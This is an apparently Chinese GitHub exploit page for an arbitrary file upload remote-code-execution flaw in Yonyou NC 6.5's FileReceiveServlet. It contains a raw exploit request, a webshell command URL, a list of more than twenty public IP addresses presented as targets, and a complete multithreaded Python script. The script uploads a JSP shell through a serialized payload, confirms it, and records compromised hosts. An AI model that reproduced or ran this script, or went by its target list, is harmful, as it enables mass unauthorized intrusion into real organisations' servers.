 # 用友 NC 6.5版本 FileReceiveServlet 路由任意文件上传漏洞

    Yonyou NC RCE with file upload

```
POST /servlet/FileReceiveServlet HTTP/1.1
Host: 113.111.49.84:9081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Length: 379


```



http://113.111.49.84:9081/eD65F18d.jsp?cmd=whoami

| URL  | http://113.111.49.84:9081http://113.111.49.84:8081http://118.178.189.153http://120.209.223.24:8088http://120.234.188.158:18081http://120.31.142.3:8081http://121.11.166.98:9081http://123.235.9.29:8888http://140.237.250.110:8087http://211.143.241.218:8086http://211.143.241.218:8089http://211.95.3.134:8083http://218.2.128.45:8082http://218.2.128.45:8083http://218.2.128.45:8081http://218.75.184.138:888http://218.77.62.251:8081http://218.92.16.210:88http://218.93.246.46:8888http://219.138.5.48:9090http://219.138.5.48:7070http://27.223.107.46:8087 |
| ---- | ------------------------------------------------------------ |
| 参考 | https://mp.weixin.qq.com/s/_dpnfY7EVR3lRIfZMoytWg            |

```
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}


def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()


def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl


def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag = "t0test0ls"
    uploadData += shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData,
                             timeout=25)
        if req1.status_code == 200:
            req3 = requests.get(u + "/t00ls.jsp", headers=header, verify=False, timeout=25)

            if req3.text.index(shellFlag) >= 0:
                printFlag = "[Getshell]" + u + "/t00ls.jsp" + "\n"
                print(printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except:
        pass
    # print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' + str(sys.argv[0]) + ' -h')
    else:
        parser = argparse.ArgumentParser()
        parser.description = 'YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u', help="url -> example [url]http://127.0.0.1[/url]", type=str, dest='check_url')
        parser.add_argument('-r', help="url list to file", type=str, dest='check_file')
        args = parser.parse_args()
        if args.check_url:
            exp(args.check_url)

        if (args.check_file):
            multithreading(exp, args.check_file, 8)

```


